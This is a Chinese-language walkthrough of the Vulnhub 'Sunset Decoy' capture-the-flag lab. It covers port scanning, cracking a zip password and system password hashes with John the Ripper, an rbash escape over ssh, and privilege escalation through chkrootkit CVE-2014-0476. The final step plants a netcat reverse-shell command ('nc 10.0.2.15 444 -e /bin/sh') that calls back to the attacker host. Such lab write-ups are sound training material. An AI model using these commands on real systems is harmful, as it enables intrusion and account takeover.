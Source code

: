 ```yaml
---

title: Vulnhub	505 SUNSET DECOY
date: 2020-07-07
---
```

考点：暴力穷举,chkrootkit,rbash绕过

靶机链接：<https://www.vulnhub.com/entry/sunset-decoy,505/>
<!--more-->
## 环境配置

| 名称         | IP        |
| ------------ | --------- |
| Kali Linux   | 10.0.2.15 |
| SUNSET DECOY | 10.0.2.13 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.13
$ sudo nmap -v -A -p- $rip
Scanning localhost (10.0.2.13) [65535 ports]
Discovered open port 80/tcp on 10.0.2.13
Discovered open port 22/tcp on 10.0.2.13
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a9:b5:3e:3b:e3:74:e4:ff:b6:d5:9f:f1:81:e7:a4:4f (RSA)
|   256 ce:f3:b3:e7:0e:90:e2:64:ac:8d:87:0f:15:88:aa:5f (ECDSA)
|_  256 66:a9:80:91:f3:d8:4b:0a:69:b0:00:22:9f:3c:4c:5a (ED25519)
80/tcp open  http    Apache httpd 2.4.38
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 3.0K  2020-07-07 16:36  save.zip
```

### WEB测试

查看80端口，下载save.zip

```bash
$ zip2john save.zip >>save.txt
$ john save.txt --wordlist /usr/share/wordlists/rockyou.txt
```

得到zip压缩包密码`manuel`

![1](https://www.vulnhub.cn/walkthrough/505/1.webp)

解压缩得到一些文件

### 漏洞发现

尝试暴力破解系统密码

```bash
$ unshadow passwd shadow >pass.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt pass.txt 

```

## 获得权限

### 靶机测试

![2](https://www.vulnhub.cn/walkthrough/505/2.webp)

成功获得一个用户的密码

现在登陆上去是rbash

使用参数获得bash

```bash
$ ssh 296640a3b825115a47b68fc44501c828@10.0.2.13 -t "bash -noprofile" 
```



## 提权

![3](https://www.vulnhub.cn/walkthrough/505/3.webp)

![4](https://www.vulnhub.cn/walkthrough/505/4.webp)

### chkrootkit

发现chkrootkit，尝试已存在漏洞[CVE-2014-0476](https://www.exploit-db.com/exploits/33899)

```bash
$ cd /tmp
$ echo "/usr/bin/nc 10.0.2.15 444 -e /bin/sh" > update
$ bash update
```

![5](https://www.vulnhub.cn/walkthrough/505/5.webp)
